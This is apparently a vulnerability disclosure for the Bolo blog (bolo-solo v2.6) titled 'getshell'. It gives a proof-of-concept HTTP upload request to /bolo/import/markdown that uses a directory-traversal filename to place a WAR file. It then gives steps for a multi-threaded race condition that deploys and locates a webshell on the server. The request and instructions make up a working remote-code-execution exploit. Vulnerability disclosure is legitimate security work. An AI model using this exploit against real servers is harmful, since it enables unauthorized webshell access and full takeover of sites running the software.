

# bolo-solo getshell

## Open source address：
https://github.com/adlered/bolo-solo

## version：
Bolo 菠萝博客 稳定版 v2.6

## code：
The code here can directly upload files without limiting the file type to be uploaded or the file type in the compressed package, and the file path is not processed correctly. Therefore, directory traversal, file upload, and conditional competition can be used to prevent getshell



## pocs
HTTP Request Packet:  
```
POST /bolo/import/markdown HTTP/1.1
Host: 192.168.211.1:8080
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 809
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypHuzSQwGehobNokU
Cookie: skin=bolo-nijigen; visited=%5B%22%2Fbolo%22%5D; solo=35b9c941bc81bd3d8500b24594fe3f4f93359aa77c3e09e3e0ca656633d077f79c14626191672324eb2507983b6df5365658b242772607cd3890f5f9aec1c667e2c3f4a107b1575b3dc5c31bf9e9d2744
Origin: http://192.168.211.1:8080
Referer: http://192.168.211.1:8080/bolo/admin-index.do
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarypHuzSQwGehobNokU
Content-Disposition: form-data; name="file"; filename="/../../{{x(user_top10)}}.war"
Content-Type: application/octet-stream

{{file(C:\Users\test\Desktop\test.war)}}
------WebKitFormBoundarypHuzSQwGehobNokU--

```

After logging in, replace the Cookie field in the HTTP packet, then capture the '/bolo/import/markdown' path packet, and replace the '{{x (user_top10)}}' field with any ten file names. Package the webshell file into a large root directory of the war package, replace {{file (C: Users test Desktop test. war)} with the content of the war package, and send the above HTTP data package with high concurrency through multiple threads (at least twenty threads). Based on the generated ten file names, concatenate directories and webshell files, and batch request to try to find if the webshell was successfully uploaded.

**ps:This method has some uncertainty due to conditional competition and requires multiple attempts**
